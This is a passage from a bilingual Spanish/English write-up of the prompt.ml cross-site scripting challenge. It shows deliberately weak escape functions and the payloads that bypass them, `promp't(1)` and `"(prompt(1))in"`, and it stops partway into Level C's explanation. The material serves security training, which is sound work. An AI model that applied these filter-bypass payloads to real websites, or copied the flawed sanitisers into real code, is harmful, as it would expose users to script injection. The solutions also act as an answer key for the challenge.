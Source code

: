 ### Code
```
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}   
```

### Solution
`promp't(1)`

>[Top](#index)

## [Level B]
:es: No podemos usar ningún char especial, pero podemos usar `in` para "checkear" el code que metemos dentro, después de haber escapado del string con `"`, de esta forma conseguimos ejecutarlo.

:uk: We can't use any special char, but we can use `in` for "checking" the code that we put inside, after escaping the quotes with `"`, this way we can execute it.

### Code
```


function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}        
```

### Solution
`"(prompt(1))in"`

>[Top](#index)

## [Level C]
:es: En este nivel, tenemos `encodeURIComponent`, que va a codear la mayoría de carácteres de interés como `<"'` por sus representaciones, pero no influye ni en `()` ni en `.` por lo que podemos llamar a alguna función de js directamente.


[Level 0]: http://prompt.ml/0
[Level 1]: http://prompt.ml/1
[Level 2]: http://prompt.ml/2
[Level 3]: http://prompt.ml/3
[Level 4]: http://prompt.ml/4
[Level 5]: http://prompt.ml/5
[Level 6]: http://prompt.ml/6
[Level 7]: http://prompt.ml/7
[Level 8]: http://prompt.ml/8
[Level 9]: http://prompt.ml/9
[Level A]: http://prompt.ml/10
[Level B]: http://prompt.ml/11
[Level C]: http://prompt.ml/12
[Level D]: http://prompt.ml/13
[Level E]: http://prompt.ml/14
[Level F]: http://prompt.ml/15